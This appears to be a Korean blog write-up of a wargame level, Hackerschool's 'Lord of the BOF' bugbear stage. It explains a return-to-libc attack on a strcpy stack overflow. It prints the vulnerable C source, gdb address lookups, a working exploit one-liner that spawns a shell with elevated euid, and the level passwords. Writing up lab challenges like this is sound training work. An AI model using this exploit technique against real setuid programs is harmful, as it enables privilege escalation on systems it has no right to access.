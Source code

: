 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL13 (Darkknight -> Bugbear) : RTL1"
date: 2015-11-27 22:03:10
category: wargame
tags:  bof 
---
```


- id = darkknight
- pw = new attacker

<!--more--> 

## 1. 문제 : bugbear.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - bugbear
        - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack betrayed you!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

## 2. 공격 준비

### 2.1 공격 방법 고민

이전 LEVEL9 (Troll -> Vampire) : Check 0xbfff에서는 0xbfff 가 아니라 0xbffe 가 되도록 command line argument 를 이용하였으나 이번 문제는 0xbe가 되도록 하기에는 너무 멀다. 따라서 shellcode 를 stack 에 올려놓고 실행을 하는 것이 아니라 Return to libc 기법을 이용하여 새로운 shellcode 가 아니라 system 에 있는 기존 함수를 실행시킬 수 있도록 환경을 꾸며보자.

### 2.2 RTL 공격

최신 커널에서는 stack 에서 shellcode execution 이 되지 않도록 DEP 와 같은 방어가 되어 있는 경우에 주로 사용되는 공격 방법이라고 한다. 기존 shellcode 에서는 jump 한 후 실행된 코드를 직접 작성하였지만 RTL 에서는 기존의 system 함수를 실행시키게되므로 실행시킬 함수의 주소와 이를 위한 parameter setting 잘 맞추어주는 것이 핵심이다.

### 2.3 x86 function argument passing

ARM 경우에는 function parameter 를 네개까지는 r0, r1, r2, r3 로 register 를 통하여 입력 받게 되어 있고, 네 개가 넘어갈 경우에는 stack memory를 이용한다. 그렇다면 x86은 어떻게 할까 ? x86은 function parameter 를 register 가 아니라 stack 을 통하여 입력을 받는다.

[Arguments : A brief introduction to x86 calling conventions](http://codearcana.com/posts/2013/05/21/a-brief-introduction-to-x86-calling-conventions.html)

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage13-1.png)

## 2.4 공격

RTL 통하여 실행하고자 하는 명령어는 바로 shell launching system("/bin/sh")이다. 이를 위한 system 함수 호출 시의 stack은 다음과 같이 구성되어야 한다고 한다. ㅋㅋ

```
buffer[40] | SFP | LR | ...
=  buffer[44] | [system() 주소] | dummy[4] | [/bin/sh string]
```
### 2.4.1 system() 함수 주소 = 0x40058ae0

```
(gdb) print system
$2 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
```

### 2.4.2 /bin/sh string 주소 = 0x400fbff9

다른 문제 풀이를 보면 system library 에 포함되어 있는 /bin/sh string 주소를 얻어서 활용하고 있다. 나는 이 값을 내가 직접 환경변수에 설정하고, 이를 사용해보려고 하는데 계속 주소가 틀리는지 seg fault 가 난다. 아무래도 gdb 실행환경과 일반 실행 환경의 stack 이 조금 다르게 형성되는 것 같다. 일단 답 그대로 사용해본다. T_T;

## 3 Exploit

```bash
buffer[44] | [system() 주소] | dummy[4] | [/bin/sh string]

> ./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" * 2 + "\xf9\xbf\x0f\x40"'`    
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAà@à@ù¿@
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
bash$ my-pass
euid = 513
new divide
```




